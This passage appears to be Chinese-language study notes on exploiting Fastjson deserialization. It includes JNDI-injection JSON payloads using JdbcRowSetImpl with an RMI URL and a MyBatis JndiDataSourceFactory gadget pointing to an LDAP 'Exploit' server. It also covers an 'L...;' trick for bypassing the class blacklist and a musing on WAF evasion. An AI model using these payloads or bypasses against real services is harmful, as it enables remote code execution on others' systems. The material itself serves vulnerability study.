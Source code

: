 ```java
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }
}
```

### 发现的点

测试的时候发现至少在后段层面的时候不传入完整的json格式也是能够正常解析的我使用如下payload也达成了连接测试的目的

```java
{
  "@type": "com.sun.rowset.JdbcRowSetImpl",
  "dataSourceName": "rmi://127.0.0.1:8000/badClassName",
  "autoCommit": true

```

在想这种方式能不能成为一种绕WAF的点

## 1.2.24-1.2.41

### 原理

原理基本不变，@type依旧默认开启，只不过加了类的黑名单，`JdbcRowSetImpl`和`TemplatesImpl`被拉黑。

### 绕过

这里存在三种处理办法：

1. `L+;`绕过黑名单
    
    payload：`"@type": "Lcom.sun.rowset.JdbcRowSetImpl;”`
    
    原理说明：在1.2.41 及附近的一些版本，fastjson使用`checkAutoType`函数检测黑名单，其中具体代码为`typeName.startsWith(blacklist_prefix)` 这样的过滤使用类名的前后分别加上`L`和`;` 就可以绕过，而且巧的是对JVM来说这种格式是OK的，依旧能够识别加载，格式的全名为`JNI Field Descriptor`
    
2. 寻找新的Gadget（就是调用链）
    - `org.apache.ibatis.datasource.jndi.JndiDataSourceFactory`
        
        要求：目标应用的classpath中必须包含`MyBatis`的依赖库（版本需为3.x.x系列且低于3.5.0）
        
        payload：
        
        ```java
        {
            "@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
            "properties":{
                "data_source":"ldap://your-ldap-server:1389/Exploit"
            }
        }
        ```
        